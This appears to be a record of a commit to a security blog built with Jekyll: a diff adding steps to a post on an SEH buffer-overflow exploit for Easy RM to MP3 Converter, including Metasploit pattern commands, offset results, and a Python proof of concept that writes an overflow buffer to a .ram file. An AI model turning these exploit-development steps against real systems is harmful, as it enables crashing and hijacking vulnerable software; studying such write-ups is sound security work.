

Before and after one commit to whitecr0wz/whitecr0wz.github.io, a Jekyll site: the page built from _posts/posts/2020-03-26-Easy-RM-to-MP3-Converter.md, in a window 1280 px wide and 900 px high, scrolled down 3024 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2020-03-26-Easy-RM-to-MP3-Converter.md

````diff
--- a/_posts/posts/2020-03-26-Easy-RM-to-MP3-Converter.md
+++ b/_posts/posts/2020-03-26-Easy-RM-to-MP3-Converter.md
@@ -42,3 +42,48 @@
 SEH Chain:
 
 ![](/assets/img/Findings2/4.png)
+
+A pattern is created with msf-pattern_create into a file called "pattern":
+
+```term_session
+root@kali:~# msf-pattern_create -l 50000 > pattern
+root@kali:~#
+```
+
+Such chain of bytes is copied into the PoC.
+
+Updated PoC:
+
+![](/assets/img/Findings2/5.png)
+
+After this is copied, executed and finally selected by the program, the SEH Chain gives the next values:
+
+![](/assets/img/Findings2/6.png)
+
+The nSEH value is copied and the offset is found using msf-pattern_offset:
+
+```term_session
+root@kali:~# msf-pattern_offset -q 66473965 -l 50000
+[*] Exact match at offset 4828
+[*] Exact match at offset 25108
+[*] Exact match at offset 45388
+root@kali:~#
+```
+
+As it is seen on the image, the program outputs different offsets, let's try with the last one, 45388.
+
+Updated PoC:
+
+```term_session
+import struct
+
+buffer = "A" * 45388 + "BBBB" + "CCCC"
+
+f = open ("finding2.ram", "w")
+f.write(buffer)
+f.close()
+```
+
+After the aforementioned process is once again repeated, the SEH Chain is overwritten by the desired values:
+
+![](/assets/img/Findings2/7.png)
````
